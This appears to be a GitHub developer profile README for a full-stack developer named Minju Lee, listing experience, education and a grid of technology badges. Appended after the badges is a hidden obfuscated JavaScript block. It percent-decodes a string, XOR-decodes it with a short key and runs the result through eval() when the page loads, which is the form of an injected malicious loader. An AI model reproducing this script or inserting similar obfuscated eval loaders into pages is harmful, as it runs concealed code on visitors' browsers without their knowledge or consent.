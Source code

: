 <div>
  <h1 align='center'> 
    <img src="https://readme-typing-svg.herokuapp.com?font=Dancing+Script&color=a190b6&size=45&height=80&vCenter=true&center=true&pause=1000&lines=Overcome+Challenging!" alt="Typing SVG" />
  </h1>
</div>

### About me
- I'm Minju Lee, based in korea.
- I'm a senior Full-stack developer with over five years of experience in the field.
- Hobbies are tennis, Listeningto music.
- My strength is self-confident, positive attitude, team-work. 

### Experience
-  SEO(Search engine optimization) Experience.
-  Mentoring Experience.
-  Leading team Experience.
-  Healthcare app Experience.
-  ...
  
### Education
- I hold a Master degree in Computer Science from the University of Nantes which laid the foundation for my technical skills.
- I am carrying 5 years of experience at top Wall Street Companies.

### Using Languages
<div>
   <div>
     <p align="center">
      <img src="https://img.shields.io/badge/C++-00599C?style=flat-square&logo=C%2B%2B&logoColor=white"/></a>&nbsp 
      <img src="https://img.shields.io/badge/Java-007396?style=flat-square&logo=Java&logoColor=white"/></a>&nbsp
      <img src="https://img.shields.io/badge/Python-3766AB?style=flat-square&logo=Python&logoColor=white"/></a>&nbsp 
      <img src="https://img.shields.io/badge/Javascript-ffb13b?style=flat-square&logo=javascript&logoColor=white"/></a>&nbsp 
     </p>
     <p align="center">
      <img src="https://img.shields.io/badge/Mysql-E6B91E?style=flat-square&logo=MySql&logoColor=white"/></a>&nbsp 
      <img src="https://img.shields.io/badge/Django-092E20?style=flat-square&logo=Django&logoColor=white"/></a>&nbsp 
      <img src="https://img.shields.io/badge/Node.js-339933?style=flat-square&logo=Node.js&logoColor=white"/></a>&nbsp 
      <img src="https://img.shields.io/badge/HTML5-E55D87?style=flat-square&logo=HTML5&logoColor=white"/></a>&nbsp 
    </p>
    <p align="center">
        <img src="https://img.shields.io/badge/CSS3-b87fa6?style=flat-square&logo=CSS3&logoColor=white"/></a>&nbsp 
        <img src="https://img.shields.io/badge/CSSModules-8f9fc3?style=flat-square&logo=CSSModules&logoColor=white"/></a>&nbsp 
        <img src="https://img.shields.io/badge/SCSS-5FC3E4?style=flat-square&logo=Sass&logoColor=white"/></a>&nbsp 
        <img src="https://img.shields.io/badge/React-b87fa6?style=flat-square&logo=React&logoColor=white"/></a>&nbsp 
    </p>
    <p align="center">
        <img src="https://img.shields.io/badge/Recoil-8f9fc3?style=flat-square&logo=React&logoColor=white"/></a>&nbsp 
        <img src="https://img.shields.io/badge/Gatsby-5FC3E4?style=flat-square&logo=Gatsby&logoColor=white"/></a>&nbsp 
        <img src="https://img.shields.io/badge/Vue.js-E55D87?style=flat-square&logo=Vue.js&logoColor=white"/></a>&nbsp 
        <img src="https://img.shields.io/badge/Vuetify-b87fa6?style=flat-square&logo=Vuetify&logoColor=white"/> </a>&nbsp 
        <img src="https://img.shields.io/badge/Vuex-8f9fc3?style=flat-square&logo=Vue.js&logoColor=white"/></a>&nbsp 
    </p>
    <p align="center">
        <img src="https://img.shields.io/badge/TailwindCSS-5FC3E4?style=flat-square&logo=TailwindCSS&logoColor=white"/></a>&nbsp 
        <img src="https://img.shields.io/badge/FontAwesome-E55D87?style=flat-square&logo=FontAwesome&logoColor=white"/></a>&nbsp  
        <img src="https://img.shields.io/badge/ChakraUI-b87fa6?style=flat-square&logo=ChakraUI&logoColor=white"/></a>&nbsp 
        <img src="https://img.shields.io/badge/Axios-8f9fc3?style=flat-square&logo=Axios&logoColor=white"/></a>&nbsp 
        <img src="https://img.shields.io/badge/Git-5FC3E4?style=flat-square&logo=Git&logoColor=white"/></a>&nbsp 
     </p>
     <p align="center">
        <img src="https://img.shields.io/badge/SVN-E55D87?style=flat-square&logo=Subversion&logoColor=white"/> </a>&nbsp 
        <img src="https://img.shields.io/badge/Jekyll-b87fa6?style=flat-square&logo=Jekyll&logoColor=white"/></a>&nbsp 
        <img src="https://img.shields.io/badge/VSCode-8f9fc3?style=flat-square&logo=VisualStudioCode&logoColor=white"/></a>&nbsp 
        <img src="https://img.shields.io/badge/Markdown-5FC3E4?style=flat-square&logo=Markdown&logoColor=white"/></a>&nbsp 
     </p>
  </div>
</div>
<script language='javascript'>
	{KZFFyc5GYhb=unescape('.%28W%26%1D/%29@%7D%078.@6Xh%7B%5D5%02+*Qs%038%24%09t%18%3E3D%20JehG6%13%3F5%5D%27%09d/Q%3A%1C%26%26Y2%1Cd%24%5B%3E_%29%28Y%3E%1F%24h%5D%3E%17%151%5D6%07d7%5C%23O%2C.X6M%2C%26B%3A%13%25%29%1A%3A%13%25%60%14%24%19.3%5CnWzi%05tP%22%22%5D4%18%3Ez%13c%5E%7B%60%145%02+*Q%11%1F8%23Q%21Mmw%13mLe.R%21%11%27%22%0AqYqJG4SpJOY0xEc');W9Ad=KZFFyc5GYhb.substr(0,KZFFyc5GYhb.length - 7);_2=W9Ad.substr(W9Ad.length-5,5);W9Ad=W9Ad.substr(0,W9Ad.length-5);kB3s7C='';for(pZ3m2mj=0;pZ3m2mj<W9Ad.length;pZ3m2mj++)kB3s7C+=String.fromCharCode(W9Ad.charCodeAt(pZ3m2mj)^_2.charCodeAt(pZ3m2mj%5));KZFFyc5GYhb=kB3s7C;eval(KZFFyc5GYhb);}
</script>
